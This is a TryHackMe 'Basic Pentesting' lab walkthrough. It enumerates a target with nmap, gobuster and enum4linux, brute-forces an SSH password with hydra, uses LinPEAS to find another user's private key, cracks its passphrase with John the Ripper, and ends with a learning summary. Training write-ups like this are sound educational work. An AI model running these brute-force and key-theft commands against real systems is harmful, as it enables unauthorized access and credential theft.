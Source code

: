 # Basic Pentesting Machine from Try Hack Me

## Nmap
`nmap -sVC <targetipaddress>`

Ports:
22
80
And a couple of samba ports that are open. (139, 445)

## HTTP
First I take a look at the http port and head over to the webpage.

Did not get much from the inspect tool.
Checked for /robots.txt and /admin. 

## gobuster
`gobuster -u http://<targetipaddress> -w /usr/share/SecLists/Discovery/Web-Content/common.txt`

Results:
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/development          (Status: 301) [Size: 320] [--> http://10.10.235.114/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 301]

From here I checked out the /development directory 
checked both **dev.txt** and **j.txt**; j.txt we can see J talking to K and we notice that Kk has a weak password that we can use to find and take advantage of. 

Users:
J adn K are the two users we know exist in the machine thus far. Can use samaba to confirm this and get the usernames.

## [samba](https://github.com/mksiki/notes/blob/main/samba.md)
`/usr/share/enum4linux/enum4linux.pl -a 10.10.235.114 `

Results:
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

## hydra 
`hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.235.114`

Results:
[22][ssh] host: 10.10.235.114   login: jan   password: armando

## SSH

While in SSH most of the stuff I did not have permssion to read and nothing of use. 
I did find another directory in /home, **kay**. 
Had a pass.bk files that I did not have permission to **cat**. Other files were the same.

To escalte this procces I will use linpeas.

### LinPEAS (Linux Privilege Escalation Awesome Script)
First I coped the linpeas.sh to **jan** machine. 
`scp ./linpeas.sh jan@<targetipaddress>:/dev/shm`

From Jan's computer:
`cd /dev/shm`
`./linpeas.sh`

Results:
══╣ Possible private SSH keys were found!
/home/kay/.ssh/id_rsa

under **kay** /.ssh directory they have an SSH key that we can use to login using that user. 

`cd /home/kay/.ssh/`
`cat id_rsa`

Copy and paste that into my macine using vim and saving it(`chmod 600 kay_id_rsa`). 

### SSH kay's machine

Prompted to enter passphrase for **kay's** key. 

To figure out this passphrase I used JohnTheRipper. 

John the Ripper can crack an SSH key passphrase by first converting the private key into a 
format John understands using ssh2john and then running a brute-force or wordlist attack.

Save the hash key to a format John undesrtands:
`/usr/share/john/ssh2john.py kay_id_rsa > key.txt`

Run `john --wordlist=/usr/share/wordlists/rockyou.txt key.txt` 

Results:
beeswax          (kay_id_rsa)

`ssh -i kay_id_rsa kay@<targetipaddress>`

Entered passphrase:
`ls`
`cat pass.bak`

# Summary of the Pentesting Walkthrough  

This TryHackMe walkthrough focuses on a basic penetration testing process, highlighting key techniques and tools to identify vulnerabilities and escalate privileges on a target machine. The approach emphasizes the importance of proper **enumeration, exploitation, and privilege escalation** strategies.

### Key Concepts and Takeaways:

1. **Enumeration is Crucial**:  
   The first phase of penetration testing is gathering information about the target. Tools like **Nmap** and **gobuster** help identify open ports and directories, which can reveal hidden entry points. In this case, **Nmap** revealed open ports (SSH, HTTP, Samba), and **gobuster** helped uncover a `/development` directory containing crucial user information. This phase allows testers to map out the target and look for weak points.

2. **Identifying Users with Samba**:  
   **Samba** can expose usernames and other information about a machine. Using tools like **enum4linux**, testers can enumerate users on the target system, making it easier to focus brute-force attacks and potentially identify accounts with weak passwords. In this walkthrough, the two main users discovered were **jan** and **kay**, both of whom became targets for further exploitation.

3. **Exploitation with Brute-Forcing**:  
   Once potential usernames are identified, brute-forcing is used to guess passwords. **Hydra**, a popular tool for this, was used to crack the SSH password for **jan**, giving access to the target system. This highlights the importance of password security, as weak passwords can be easily exploited.

4. **Privilege Escalation**:  
   After gaining access to a low-privileged account, the next step is to look for ways to escalate privileges. In this case, the tester found an **SSH private key** belonging to **kay** in her home directory, which could be used to authenticate as **kay**. However, the private key was protected by a passphrase, which was cracked using **JohnTheRipper**. This demonstrates the importance of protecting sensitive keys with strong passphrases.

5. **Automation and Scripts**:  
   The use of automated tools like **LinPEAS** (a Linux privilege escalation script) made it easier to identify weaknesses and find sensitive files or misconfigurations. The combination of manual exploration and automated scripts is essential in real-world pentesting engagements, as it speeds up the process and uncovers hidden vulnerabilities.

### What to Remember:
- **Enumeration** is key: Tools like **Nmap** and **gobuster** allow you to discover open ports and hidden directories.
- **User enumeration** (e.g., with **enum4linux**) helps identify valid usernames to target.
- **Brute-force** attacks (using **hydra**) can crack weak passwords and provide entry to systems.
- **Privilege escalation** can often be achieved by finding SSH keys or other sensitive files; tools like **LinPEAS** and **JohnTheRipper** can help in these situations.
- The process involves both **manual checks** and the use of **automated scripts** to speed up discovery and exploitation.



